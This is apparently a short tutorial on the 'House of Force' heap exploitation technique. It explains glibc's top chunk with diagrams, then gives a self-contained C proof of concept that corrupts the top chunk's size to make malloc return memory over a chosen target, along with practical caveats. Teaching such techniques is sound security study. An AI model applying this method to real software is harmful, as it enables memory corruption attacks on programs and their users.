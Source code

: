 # House of Force
> LongChampion, 18/03/2020

Finally, I have found an attack that can "break" the top_chunk.

## What is top_chunk?
When your program call first *malloc function*, some kernel function (such as `brk` and `sbrk`) is called to change the `program_break` and give your program a heap segment. In most case, the initial heap segment is much larger than your request size. Because your allocated chunk only mamages the memory belong to it, top_chunk is created to manage the remaining memory of heap segment.  
For example, if you call `malloc(0x100)` and the program heap segment is [0x603000 - 0x624000], then the memory layout will be:
```
    + - - - - - - - - - + - - - - - - - - - - - - - - - - - - - - - - - - - - +
    |    your chunk     |                      top chunk                      |
    |    size: 0x110    |                    size: 0x20ef0                    |
    + - - - - - - - - - + - - - - - - - - - - - - - - - - - - - - - - - - - - +
    ^                   ^                                                     ^
    |                   |                                                     |
0x603000            0x603110                                              0x624000
```
This is very easy to understand, isn't it? Please remember that although your request size is 0x100, the size of returned chunk is actually 0x110 because of padding and chunk header.  
The top_chunk mechanism is very simple: when you allocate a new (small enoungh) chunk, top chunk is split into two chunks, ones is returned to you and the remainning becomes the new top_chunk.
```
    + - - - - - - + - - - - - - - - - - - - - - - - - - - - - - - - - - - - - +
    | your chunk  |                         top chunk                         |
    + - - - - - - + - - - - - + - - - - - - - - - - - - - - - - - - - - - - - +
    | your chunk  | new chunk |                 new top chunk                 |
    + - - - - - - + - - - - - + - - - - - - - - - - - - - - - - - - - - - - - +

```

## The attack
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

char SECRET[] = "This is the top secret!";

int main()
{
    void *first = malloc(0x100 - 8);

    struct Chunk *top_chunk = (struct Chunk *) (first + 0x100 - 0x10);
    top_chunk->size = -1;

    long long padding_size = (long long) &SECRET - 0x10 - (long long) top_chunk;
    void *padding = malloc(padding_size - 8);
    void *REWARD = malloc(0x100 - 8);
}
```
First, we need call `malloc` once to create top_chunk. Then, we overwrite top_chunk's size to a very big value (I use -1). Next, we calculate `padding_size`: the distance between top_chunk and our target chunk. Finally, we call `malloc(padding_size)` to move our top_chunk to target chunk and call `malloc` again to complete the attack.

### Note
- "-1 is a very big value?". If you know how computer store integer in memory and chunk size is always consider as unsigned, you will recognize that is really TRUE.
- Our target can be any memory address, but be careful if your target is on the stack or in the segment that don't have write permission. Try to attack on those can crash your program because `malloc` will modify some pointer of top_chunk when moving it and smash your stack frame or violate segment's permission.
- The target chunk is start at offset 0x10 before target address (this is the reason why we need operand `-0x10` when calculate `padding_size`)
- In some case, the attack can't be perform because `padding_size` is not a valid chunk size (does not divide by 0x10 in x64 system or 0x8 in x86 system)
